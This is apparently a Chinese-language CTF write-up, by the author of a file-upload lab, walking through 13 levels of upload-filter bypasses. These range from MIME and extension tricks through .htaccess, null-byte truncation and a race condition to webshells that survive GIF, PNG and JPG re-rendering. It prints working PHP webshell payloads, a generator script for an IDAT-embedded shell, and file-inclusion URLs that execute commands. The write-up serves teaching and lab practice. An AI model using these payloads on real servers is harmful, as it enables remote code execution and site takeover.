# JS

国光认为好的题目就应该让选手在做题的时候给予线索引导，让他们可以从题目中真正学到些什么。

 

如何判断是否是前端验证呢？首先抓包监听，如果上传文件的时候还没有抓取到数据包，但是浏览器就提示文件类型不正确的话，那么这个多半就是前端校验了：

 

## 解法一：抓包

 因为是前段验证的问题，可以直接将 shell.php 重命名为 shell.png 上传抓包的时候再将文件名修改为 shell.php 即可绕过前段限制，成功上传 webshell。

## 解法二：禁用 JS

因为 JS 来校验文件后缀的原因，所以可以直接在浏览器上禁用 JS 这样就可以直接上传文件了。Chrome 内核的浏览器在审查元素的状态下可以找到 Settings 选项，然后找到 「Debugger」 选项下面直接勾选 「Disable JavaScript」即可。

## 解法三：调试 JS

这种解法就类似于孔乙己中的茴香豆的 「茴」有几种写法？，纯粹就是为了炫技，但是并不实用，那么国光下面就简单说下调试 JS 的过程吧。

首先审查元素下下断点：

 

单行单步调试，找到 `whitelist` 变量，双击元素然后直接修改数组元素的值 ：

 

放掉数据包，之前的 shell.php 可直接上传成功：

 

成功拿到根目录下的 flag：

 

 

# MIME

这样下去感觉上课都不需要 PPT 了，关键姿势点都直接贴在了题目中了：

  

因为提示了 MIME 类型校验，所以抓取上传的数据包然后直接修改 `Content-Type` 类型为：`image/png` 等合法的类型即可：

 

# 文件头

本题配图中里面包含了 GIF89a 已经很明显了，答案就在题目中：

 

本题校验了图片的文件头也就是校验图片内容的，这个时候使用一个标准的图马是可以成功绕过的，由于国光的这个代码只校验了前面几个字节，所以直接写 GIF89a 即可成功绕过：



# 缺陷的代码 - 1

本题的图片上的第 2 行代码是一个有缺陷的代码，黑名单关键词替换为空的操作是一种不安全的写法：

 

 因为代码开发者的错误写法，这种情况下可以直接使用嵌套后缀绕过：

 

# 缺陷的代码 - 2

本地属于理论上漏洞，因为题目环境是 Docker 容器运行的 Linux 系统，所以本题国光修改成了 Windows 的特性



同理图片提示中的第 2 行代码也是有缺陷的，可以仅用了 `str_replace` 替换，这样很容易就被大小写绕过，因为 Windows 环境下不区分大小写，所以就可以让 .PHp 当做 .php 来解析了，但是 Linux 下这种大小写如果的话完全没作用，所以本题是国光自己造的漏洞，用来伪造 Windows 环境下的大小写不区分的情况：



# 黑名单

本题同样题目的配图中暗示已经比较明显了，默认情况下 Apache 把 phtml、pht、php、php3、php4、php5 解析为 PHP：

  

那么这里 Fuzz 一下，发现这些稍微冷门的后缀都可以直接绕过：



# 解析规则

本题的暗示也已经很明显了，只要选手查询 htaccess 怎么解析的话，就可以很顺利的解题：

 

 因为题目是考擦 htaccess 这个上传知识点，所以先准备一个解析规则：

```bash
$ cat .htaccess
AddType application/x-httpd-php .png
```

然后先上传这个 .htaccess 文件到服务器的 upload 目录下：

 

这表示将 upload 目录下的所有 png 图片都当做 php 来解析，然后再上传一个 shell.php 的 webshell 即可：


此时这个 shell.png 就已经被当做 PHP 解析了：

 

# 古老的漏洞 - 1

本题依然在题目中科普了 00 截断是啥，以及 00 截断的利用条件：

  

00 截断多配合路径来截断，我们来抓包看看应该是存在路径信息的，然后直接在路径后面使用 %00 来截断一下就可以成功绕过，为啥 %00 直接就可以绕过了呢？这是因为路径信息是从 GET 方式传递个后端的，这样默认会进行一次 URL 解码，%00 解码后就是空字节：

 

这样保存的文件名就是这样的效果：

```bash
/usr/local/apache2/htdocs/upload/new.php%00shell.png
```

因为 `%00` 起到截断的作用，所以最终会在 upload 目录下面生成 new.php 的 webshell

 

# 古老的漏洞 - 2

国光这一题偷懒了，没有换题目外观，不过选手们抓包就会发现这是一个 POST 型的 00 截断：

 

既然是 POST 型 00 截断那么就直接抓包吧，需要在 BP 里面写一个 %00 然后再 URL 手动解码一下：

 

# 条件竞争

本题是一个条件竞争漏洞，也在题目中给了关键的功能代码贴图，以及给了解题思路了：

   

条件竞争的话稍微和正常的上传姿势不一样，先把题目中给的 webshell 信息复制出来备用：

```php
<?php fputs(fopen('xiao.php','w'),'<?php eval($_REQUEST[1]);?>');?>
```

然后先上传 shell.php 文件：

 

BP 抓取这个数据包然后发送到 Intruder 测试器中使用 NULL 空值无限爆破：

  

然后抓取访问 shell.php 的数据包：

```http
GET /upload/shell.php HTTP/1.1
Host: vul.xps.com:30009
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

依然使用 NULL 空值爆破：

 

 

最后成功在服务器的 upload 目录下生成 xiao.php 里的内容就是一个标准的webshell：

 

# move_uploaded_file 缺陷

这一题取材于 upload-labs 后面新增的题目：

 

```php
move_uploaded_file($temp_file, $img_path)
```

当 `$img_path` 可控的时候，还会忽略掉 `$img_path` 后面的 `/.` ，这一点发现最早是 <a href="https://www.smi1e.top/" ref="nofollow">Smile</a> 师傅于 2019 年 2 月份提出来的，TQL !!!既然知道 move_uploaded_file 的这个小缺陷的话，这样既可直接 Getshell：

 

# 二次渲染

`imagecreatefrom` 系列渲染图片都可能被绕过，有些特殊的图马是可以逃避过渲染的，另外这一题我特意还给了查看提示的按钮：


 

 点击这个查看提示会出现如下页面：

 

注意 URL 发生了变化，没错这里是一个文件包含漏洞，这样包含选手们逃避渲染上传后的图片的话就可以直接 getshell 了：

 

 

接下来要总结一下二次渲染的细节了，这也是耗费时间写本文的主要动力之一，因为上面的那些知识点都比较常规，这个二次渲染的细节国光我一直都没有深入总结过，正好就放这里总结一下。


## GIF

渲染前后的两张 GIF，没有发生变化的数据库部分直接插入 Webshell 即可

首先准备一张迷你的 GIF

  

然后上传到目标网站上面渲染一下再导出：

 

使用 010Editor 打开这两个文件，在 「Tools」选项下面找到「Compare Files」即可对比两个文件内容：

 

对比的效果如下，其中灰的部分就是内容一致的部分：

  

那么只需要将 PHP 代码插入到灰色的部分即可：

   

修改后的 gif 图片如下：

  

然后上传到目标网站上面渲染一下再导出：

  

此时查看一下发现我们的 payload 内容依然存在：

    

## PNG

PNG 没有 GIF 那么简单，需要将数据写入到 PLTE 数据块 或者 IDAT 数据块。首先准备一个 PNG 图片：

 

两次渲染后对比一下，发现除了 PNG 文件头，其他部分全都不一致：

 

看来使用 GIF 那种思路是行不通的了。PNG 的解决方法继续往下面看。

### 写入 PLTE 数据块

关于实现细节以前乌云知识库的一篇文章写的很详细，感兴趣的朋友可以阅读看看：

 <a href="https://wooyun.x10sec.org/static/drops/tips-16034.html" ref="nofollow">WooYun 乌云 - php imagecreatefrom* 系列函数之 png</a> 

写入 PLTE 数据块并不是对所有的 PNG 图片都是可行的，实验证明只有索引图像才可以成功插入 payload，灰度和真彩色图像均以失败告终。

修改索引图像插入 PHP 代码的脚本项目地址为：<a href="https://github.com/hxer/imagecreatefrom-/blob/master/png/poc/poc_png.py" ref="nofollow">Github - poc_png.py</a> 

因为值有索引图像的 PNG 才可能插入 PLTE 数据块，但是我们上面准备的 PNG 并不符合要求，得需要在 PS 里面将图片模式修改为索引颜色：

 

 修改的索引图片如下：

 

然后使用 Python2 运行脚本：

```bash
python poc_png.py -p '<?php eval($_REQUEST[1]);?>' -o gg_shell.png old.png
```

生成新的 gg_shell.png 图片如下：

 

这个图片是带 payload 的：

 

然后上传到目标网站上面渲染一下再导出：

  

来检测一下我们的 payload 是否还存在了：

 

哎貌似不对劲：

 

这个字符串被渲染后貌似是顺序有点奇怪。这里国光踩了很多坑，查了很多资料网上都没有好的解决方案，最后国光**将这个被目标网站渲染后的图片再上传渲染**，下面是渲染后的图片：

 

赶紧来查看一下里面是否包含图马信息：

 

 阿这！居然成功了，真的是功夫不负有心人呐，不枉国光我周末大半夜的在公司加班写的这篇文章了！！！泪目

### 写入IDAT数据块

PNG  也是可以写入 IDAT 数据来绕过渲染的，由于快 23.00 了国光没有多余的时间研究里面细节了，这里直接引用了先知里面提供的一个脚本：

```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);

$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'./shell.png');
?>
```

直接运行生成会在脚本目录下生成 shell.png 图片，下面是生成好的 图片：

 

其内容如下：

 

 然后上传到目标网站上面渲染一下再导出：

 

查看一下里面的 payload 是否还存在：

 

依然存在的，成功绕过渲染 ，这里顺便提一下这个 shell 的使用方法，下面就不再补充了。

首先获取图片的上传地址为：

```
http://vul.xps.com:30010/upload/357481464.png
```

 


利用网站本身的文件包含漏洞，尝试直接包含这个图马 ：

```bash
http://vul.xps.com:30010/?file=./upload/357481464.png
```

 

貌似成功了，执行命令看看：

```
http://vul.xps.com:30010/?0=system&file=./upload/357481464.png
```

POST 内容如下：

```bash
1=cat /f14a4a4a4a444g
```

 

## JPG

JPG 也需要使用脚本将数据插入到特定的数据库，而且可能会不成功，所以需要多次尝试。

这个脚本 Github 搜索一下很多项目都有这个脚本，这里国光就随便搜索拿了搜索结果第一个的项目放在本文中。

**项目地址**：<a href="https://github.com/BlackFan/jpg_payload" ref="nofollow">Github - lackFan/jpg_payload</a>

准备一个 jpg 图片：

 


 然后上传到目标网站上面渲染一下再导出：

  

 

接着使用脚本来插入 payload，如果想要修改默认 payload 的话，自行修改脚本中的下部分代码：

```php
$miniPayload = '<?php phpinfo();?>';
```

然后运行脚本插入 payload：

```bash
$ php jpg_payload.php 122728342.jpg
Success!
```

生成的新图片为：

     

然后上传到目标网站上面渲染一下再导出：

   

 那么来查看一下最终这个 JPG 里面是否带有 payload 信息：

 

无疑写 phpinfo() 是很容易成功的，但是 phpinfo() 并无实质性危害，我们需要插入真正的 webshell 才可以：

```php
$miniPayload = '<?php $_GET[0]($_POST[1]);?>';
```

> 这里非常玄学，在国光经历了不知道多少次失败后，才成功将上面的 payload 完整插入

 

这个图马被 imagecreatefromjpeg 渲染后如下：

 

查看一下 payload 是否存在：

  

完美，尝试直接文件包含来执行攻击语句试试看：

  

**JPG 坑点总结**

1. 需要被 imagecreatefromjpeg 渲染或再用工具
2. 图片找的稍微大一点 成功率更高 
3. Payload 语句越短成功率越高 
4. 一张图片不行就换一张 不要死磕
5. 国光补充：貌似白色的图片成功率也比较高
6. `<?php $_GET[0]($_POST[1]);?>` 这种payload 成功率很高

# 代码审计

代码审计这一题如果可以动态调试的话，那么理解起来就会比较简单：


 

这个题目是直接 copy Upload-labs 里面的最后一关，这个貌似还是后面新增的题目，下面是核心代码：

```php
$is_upload = false;
$msg = null;
if(!empty($_FILES['upload_file'])){
    //检查MIME
    $allow_type = array('image/jpeg','image/png','image/gif');
    if(!in_array($_FILES['upload_file']['type'],$allow_type)){
        $msg = "禁止上传该类型文件!";
    }else{
        //检查文件名
        $file = empty($_POST['save_name']) ? $_FILES['upload_file']['name'] : $_POST['save_name'];
        if (!is_array($file)) {
            $file = explode('.', strtolower($file));
        }

        $ext = end($file);
        $allow_suffix = array('jpg','png','gif');
        if (!in_array($ext, $allow_suffix)) {
            $msg = "禁止上传该后缀文件!";
        }else{
            $file_name = reset($file) . '.' . $file[count($file) - 1];
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' .$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $msg = "文件上传成功！";
                $is_upload = true;
            } else {
                $msg = "文件上传失败！";
            }
        }
    }
}else{
    $msg = "请选择要上传的文件！";
}
```

实际上最后一关和上传关系不大，这个题主要考查 PHP 代码审计，关于代码审计的题目实际上 XDebug 动态调试一下就可以很轻松的做出来，关于 XDebug 的配置文章可以参考国光我之前写的两篇文章：

- [国光 - macOS 下优雅地配置 PHP 代码审计环境](https://www.sqlsec.com/2020/07/macphp.html)

- [国光 - Xdebug+宝塔+PHPStudy+VScode PHP](https://www.sqlsec.com/2020/09/xdebug.html)

首先看第一个判断：

```php
$allow_type = array('image/jpeg','image/png','image/gif');

if(!in_array($_FILES['upload_file']['type'],$allow_type)){
  echo "<script>black();</script>";
}
```

所以必须保证我们上传的表单 MIME 类型一定要符合标准。

接着对我们提交的 sava_name 的字符串进行处理，如果不是数组的话就以 `.`为分隔，打散为数组：

```php
$file = empty($_POST['save_name']) ? $_FILES['upload_file']['name'] : $_POST['save_name'];

if (!is_array($file)) {
  $file = explode('.', strtolower($file));
}
```

如果是**数组的话就无需打散**，这里比较关键，后面再详细说，先记着。

因为打散后会校验最后的后缀：

```php
$ext = end($file);
$allow_suffix = array('jpg','png','gif');

if (!in_array($ext, $allow_suffix)) {
  echo "<script>black();</script>";
}
```

如果不是合法后缀的话直接就报错了，所以我们老老实实的传入合法的字符串类型的不行的，这里的传入一个数组。比如这样的数组：

```php
$file = [0=>'shell.php/', 2=>'png']
```

这样执行完最后的拼接文件名的代码后：

```php
$file_name = reset($file) . '.' . $file[count($file) - 1];
$file_name = 'shell.php/' . '.' . $file[2 - 1]; = 'shell.php/'.'' = 'shell.php/.'
```

这样最后一步：

```php
move_uploaded_file($temp_file, $img_path)
move_uploaded_file($temp_file, 'xx/xx/shell/php/.')  
```

结合前面的 move_uploaded_file 函数缺陷，会忽略掉文件末尾的 `/.`，所以最终就可以成功将 webshell 上传。

那么最终构造的数据包如下：

  

# 支持一下 

目前文件上传的靶场一共 13 个关卡，自己从靶场开发到编写 WP 也耗时了好几天时间，不过每次总结整理这些的熟悉又陌生的知识点感觉都会有新的发现 ：

 

另外如果本文对你有帮助的话，而且又恰巧财力雄厚 =，=，那么可以考虑打赏一下本文哦 请随意打赏吧：

<center class="half">         </center>

没想到文章加入打赏列表没几天 就有热心网友打赏了 于是国光我用 Bootstrap 重写了一个页面 用以感谢 支持我的朋友，详情请看 [打赏列表 | 国光](https://www.sqlsec.com/dashang.html)

# 参考资料

- <a href="https://www.ctfhub.com/" ref="nofollow">CTFHub</a>

- <a href="https://github.com/c0ny1/upload-labs" ref="nofollow">Github - c0ny1/upload-labs</a>

- <a href="https://wooyun.x10sec.org/static/drops/tips-16034.html" ref="nofollow">WooYun 乌云 - php imagecreatefrom* 系列函数之 png</a>

- <a href="https://www.smi1e.top/upload-labs-20%E5%85%B3%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0/" ref="nofollow">Smi1e - Upload-labs 20关通关笔记</a>

- <a href="https://xz.aliyun.com/t/2657" ref="nofollow">先知 - upload-labs之pass 16详细分析</a>

- <a href="https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/" ref="nofollow">Encoding Web Shells in PNG IDAT chunks</a>

  


